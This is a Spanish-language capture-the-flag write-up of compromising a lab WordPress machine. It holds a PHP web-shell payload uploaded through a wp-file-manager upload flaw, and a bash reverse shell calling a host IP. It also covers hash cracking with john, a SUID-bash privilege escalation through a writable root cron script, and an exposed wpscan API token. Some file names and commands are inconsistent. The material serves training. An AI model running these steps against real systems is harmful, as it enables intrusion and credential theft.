








Bien, empezaremos realizando un escaneo con nmap a la IP:

```bash
sudo nmap -p- --open -Ss --min-rate 5000 -vvv -Pn -n 192.168.111.135 -oG allPorts
```



Descubrimos 2 puertos abiertos:
_22_: SSH
_80_: HTTP

Ahora vamos a realizar un escaneo mas exhaustivo, tratando de descubrir las versiones y los servicios que corren en dichos puertos:

```bash
nmap -p22,80 -sCV 192.168.111.135 -oN targeted
```


En este punto el principal vector seria web, por lo que realizamos un pequeño escaneo utilizando el script de nmap **http-enum**:

```bash
nmap -p80 --script http-enum 192.168.111.135 -oN webScan
```



Vamos a entrar al _/blog/_ para ver que nos encontramos:


Si hacemos Ctrl+u e inspeccionamos el codigo fuente podemos ver que llama al dominio _wordpress.aragog.hogwarts_, por lo que lo agreguamos a nuestro _/etc/hosts_


Vamos a usar la herramienta **whatweb** para ver las tecnologías de la pagina:

```bash
whatweb http://wordpress.aragog.hogwarts/blog/
```


Encontramos que tiene un _wp-login_, por lo que sabemos que su gestor de contenidos es **Wordpress**. Ahora seria viable realizar un escaneo de _wpscan_ para ver posibles **CVEs y vulnerabilidades**. En el siguiente comando va a ser sumamente importante el parámetro `--plugins-detection=aggressive` para encontrar el _CVE_ correcto:

```bash
wpscan --url 'http://wordpress.aragog.hogwarts/blog/' -e u,vp,vt --api-token='F8WCE4IVs6Zek3POhm4hz27sdQV1Q6SiXhP0VN5aR90' --detection-mode=aggressive --plugins-detection=aggressive
```

Explotaremos la siguiente vulnerabilidad en el plugin _wp-file-manager_:


Y utilizaremos la siguiente fuente: https://seravo.com/en/0-day-vulnerability-in-wp-file-manager/

La vulnerabilidad encontrada permite a un atacante subir archivos arbitrarios sin autenticación y luego ejecutarlos en el servidor, lo que resulta en _Remote Code Execution (RCE)_ completa sobre el sitio WordPress afectado. El plugin incluye un endpoint llamado _connector.minimal.php_ dentro de `wp-content/plugins/wp-file-manager/lib/php/` que ejecuta funciones de la librería _elFinder_. Esta parte del código:

- Se expone públicamente sin requerir login o permisos,
- Toma parámetros directamente de `$_POST` y `$_FILES`,
- Y los pasa a funciones internas sin la validación adecuada

Para explotarla ejecutaremos 3 comandos:

_1)_ Crearemos el archivo a subir:

```bash
echo '<?php system($_GET['cmd']);?>' > payload.php
```

_2)_ Subiremos el archivo:

```bash
curl -F cmd=upload -F target=l1_ -F debug=1 -F 'upload[]=@payload.php' \
        -X POST http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php
```

_3)_ Ejecutaremos: 

```bash
curl -iLsS http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload3.php
```

Archivo subido, ahora apuntaremos a este realizando una peticion a la siguiente ruta: 
```
http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php
```

Ahora tenemos la capacidad de agregar el parametro _cmd_ para consolidar la **RCE**:

```
http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=whoami
```



Ahora simplemente nos ponemos en escucha con _netcat_ y nos mandamos la reverse shell:

```bash
nc -lnvp 4444
```

```
http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload3.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.111.1/4444 0>%261"
```

--- 
---
---
_Conseguimos el acceso a la maquina como el usuario www-data!_ 

Ahora aplicaremos un tratamiento de la tty:
```bash
script /dev/null -c bash
```

Hacemos _ctrl+z_ y ponemos

```bash
stty raw -echo;fg
reset xterm
export TERM=xterm
stty rows 40 columns 155
```

Entramos en la fase de la escalada, cuando comprometemos un wordpress, es recomendable buscar un wp-config o similares:

```bash
find / -name "*wp-config*" 2>/dev/null
```



Si analizamos un poco el primer archivo, podemos ver que el archivo de configuracion de Debian se encuentra en la siguiente ruta: `/etc/wordpress/config-default.php`



En este archivo estan las credenciales de Mysql:


Ahora nos conectamos a la base de datos:
```bash
mysql -u root -p wordpress
```

Vemos las tablas de la base de datos:



Vemos el contenido de la tabla _wp-users_:


Ahora tenemos el hash de la contraseña del usuario **hagrid98**. Ahora vemos que tipo de hash es con hashid:


Simplemente crackeamos el hash con _john_ utilizando la wordlist _rockyou_:

```bash
john --format=phpass hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
```

Esto nos devuelve la siguiente contraseña: `password123`. Por lo que simplemente cambiamos al usuario _hagrid98_ usando dicha contraseña.

Ahora para continuar con la escalada, vamos a realizar un archivo _procmon.sh_, para listar los comandos que se ejecutan en tiempo real. Dicho archivo tiene que tener el siguiente contenido:

```bash
#!/bin/bash
function ctrl_c (){
	echo -e "\n\n [+] Saliendo... "
	tput cnorm; exit 1
}
#Ctrl + C
trap ctrl_c SIGINT

old_process=$(ps -eo user,command)

while true; do
	tput civis    # Ocultar cursor
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|kworker"
	old_process=$new_process
	tput cnorm
done
```

Una vez le damos permisos y lo ejecutamos, vamos a ver lo siguiente:



Aca vemos que **root** ejecuta _.backup.sh_ a intervalos regulares de tiempo, y como usuario hagrid somos propietarios del archivo, por lo que podemos escribir dentro de el. 

Pondremos el siguiente contenido:
```bash
chmod u+s /bin/bash
```

Ahora simplemente esperamos a que se ejecute el comando y lanzamos un `sudo -p` y tenemos la maquina **completamente comprometida2**!


